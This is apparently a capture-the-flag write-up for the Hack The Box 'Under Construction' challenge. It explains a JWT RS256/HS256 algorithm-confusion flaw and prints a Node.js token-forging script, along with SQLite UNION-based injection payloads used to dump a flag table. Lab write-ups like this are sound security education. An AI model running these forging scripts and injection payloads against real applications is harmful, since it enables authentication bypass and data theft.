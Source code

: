 # Hack The Box -  Under Construction [write-up]

Today we are gonna see how I solved makelarisjr's challenge on Hack The Box.

## What we see

Visiting the page we are greeted by a simple login/register portal.
Viewing the page source gives us no clues, so we turn our focus at the login/register function.

## Attempts at sqli

Trying to login with any username/password combo, greets us with an 
>Invalid username or password 

message, so we head on registering a new account.

After creating a new account and login in with the new credentials, we are greeted by a welcoming message that mentions our username. That gives us the idea of a possible sqli. So we start with the common login page exploits but none of them work, but we notice something interesting going on. After creating an account with a username that includes double quotes **"**, we can't login with that username but it throws us an error:
>user username"" doesn't exist in our database.

The double quotes got duplicated! It probably searches for the user ' username"" ', in the db, and can't find it. We confirm our suspicions by registering a new account ' username"" ' and now logging in with the username ' username" ', it works! There is some input sanitization going on. I put some time there but was not able to bypass it, every time I used double quotes, they were duplicated, making it impossible to inject some sql code.

We have to look somewhere else.

## Another approach

Taking a look at the cookies, we find a *session* cookie.
It's a long string that is seperated by 2 dots. This makes us think it's a **[JWT](https://jwt.io/introduction/)** whose format is **xxxxx.yyyyy.zzzzz**.
Having logged in with the username *hax0r* and parsing it gives us back
```
HEADER:
{
  "alg": "RS256",
  "typ": "JWT"
}
PAYLOAD:
{
  "username": "username",
  "pk": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n",
  "iat": 1585403996
}
```

So our assumptions were true, but what do we know now?

-The site uses a cookie to store the current username.
-It can be verified if it has been manipulated using RS256 encryption.
-We are provided with a public key.

Taking a look at the supplied files we come accross this interesting *JWTHelper* file:
```
const fs = require('fs');
const jwt = require('jsonwebtoken');

const privateKey = fs.readFileSync('./private.key', 'utf8');
const publicKey  = fs.readFileSync('./public.key', 'utf8');

module.exports = {
    async sign(data) {
        data = Object.assign(data, {pk:publicKey});
        return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
    },
    async decode(token) {
        return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
    }
}
```

We can see that there is a private.key, a *public.key*. Some "data" (our username) + the publicKey are signed using RS256 ecryption and the privateKey, but can be veryfied using either RS256 or **HS256** encryption using the publicKey that we know, hmmm something smells fishy right here.

## Diffrences between RS256 and HS256
- RS256 encryption is assymetric, meaning that we use two keys, one public and one secret, to sign our data
- HS256 encryption uses the same key to sign and verify the data.

But wait! We already know the key used to verify the signature, and the app has the option to decode using the HS256 encryption. That means that we can create a our own payload, generate the cookie, encrypt it with the known public Key, and win! And that's what we did.

## Exploiting 

Using this nodejs script:
```
const jwt = require('jsonwebtoken');

payload = "hax0r"

data = {username : payload};

publicKey = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n"

data = Object.assign(data, {pk : publicKey})

exploit = jwt.sign(data, publicKey, { algorithm:'HS256'})

console.log(exploit)
```

we can generate a cookie with any *username* parameter we want. The above example, signs us with the created account.
What if we try to sign in with a random username?

The site returns: 
>user random_username doesn't exist in our database.

So using the name we can attempt to login with any name, and guess what! **Quotes ' are now freely allowed**, so we can give another go at *sqli*.

Attempting to login with the usual payload "*' or 1 --* " signs us in with the username "user". Gotcha!

Next, we find the ammount of columns we need to return but trial and error using the payload "*' and 0 UNION SELECT 1,2,... --* " until no "SQLITE_ERROR" pops up . The magic number is **3**. We just signed in with the username *2*. So we have 3 columns and we can read the second collumn. Using the payload "*' and 0 UNION SELECT NULL,name,NULL FROM sqlite_master WHERE type ='table' --* " we login in with the username "***flag_storage***". After that, obtaining the flag is very trivial using the payload "*' and 0 UNION SELECT \*,NULL FROM flag_storage --* "

## Pack it up boys!

That was it! It was an interesting challenge that made me learned a lot. I hopped you like it too!
